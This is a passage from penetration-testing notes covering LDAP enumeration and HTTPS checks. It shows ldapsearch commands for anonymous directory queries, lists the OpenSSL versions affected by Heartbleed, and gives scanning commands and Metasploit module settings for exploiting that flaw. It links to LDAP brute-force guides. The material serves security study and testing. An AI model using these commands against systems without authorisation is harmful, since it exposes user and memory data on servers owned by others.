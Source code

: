 
You can sometimes access the ldap using a anonymous login, or with other words no session. This can be useful becasue you might find some valuable data, about users.

```
ldapsearch -h 192.168.1.101 -p 389 -x -b "dc=mywebsite,dc=com"

# if you know username and password:
ldapsearch -H ldap://10.1.2.3 -b "dc=example,dc=com" -U username -W
```


When a client connects to the Ldap directory it can use it to query data, or add or remove. 

Port 636 is used for SSL.

There are also metasploit modules for Windows 2000 SP4 and Windows Xp SP0/SP1

[nmap script examples (nmap-rootdse, nmap-search, nmap-brute)](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html#ldap-port-389)

[brute-force using Patator](https://sbmlabs.com/blog/brute-force_ldap_accounts_with_patator/)

## Port 443 - HTTPS

Okay this is only here as a reminder to always check for SSL-vulnerabilities such as heartbleed. For more on how to exploit web-applications check out the chapter on client-side vulnerabilities. 

### Heartbleed

OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
OpenSSL 1.0.1g is NOT vulnerable
OpenSSL 1.0.0 branch is NOT vulnerable
OpenSSL 0.9.8 branch is NOT vulnerable

First we need to investigate if the https-page is vulnerable to [heartbleed](http://heartbleed.com/)



We can do that the following way.

```
sudo sslscan 192.168.101.1:443
```

or using a nmap script

```
nmap -sV --script=ssl-heartbleed 192.168.101.8 
```

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

```
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```
